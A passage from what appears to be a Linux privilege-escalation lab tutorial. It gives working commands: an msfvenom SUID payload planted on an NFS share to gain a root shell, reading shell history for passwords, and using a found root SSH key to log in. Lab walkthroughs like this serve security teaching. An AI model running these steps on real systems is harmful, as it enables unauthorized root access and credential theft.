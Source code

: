Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

```bash
root@gr4n173:~$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```


Still using Kali's root user, make the file executable and set the SUID permission:

```bash
root@gr4n173:~$ chmod +xs /tmp/nfs/shell.elf
```

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```bash
root@gr4n173:~$ /tmp/shell.elf
```

## 7. Password&Keys
### config Files
Sometimes the creator leave the credentials and keys inside the files so we have to check everypart of the directory.

### History Files
Sometimes password may be typed in their command line by users.
```bash
root@gr4n173:~$ cat ~/.*history.txt | less
```

### SSH Keys
Sometimes user makes the backups of important files but fail to secure them with correct permissions. So looking for hidden files & directories in the system root.

```bash
root@gr4n173:~$ ls -al /
```

From there we found the `ssh_key` which can be used to ssh into root 
```bash
root@gr4n173:~$ chmod 600 ssh_key_of_root
```

Ssh command to sshing into root.
```bash
root@gr4n173:~$ ssh -i ssh_key_of_root root@10.10.13.123
```



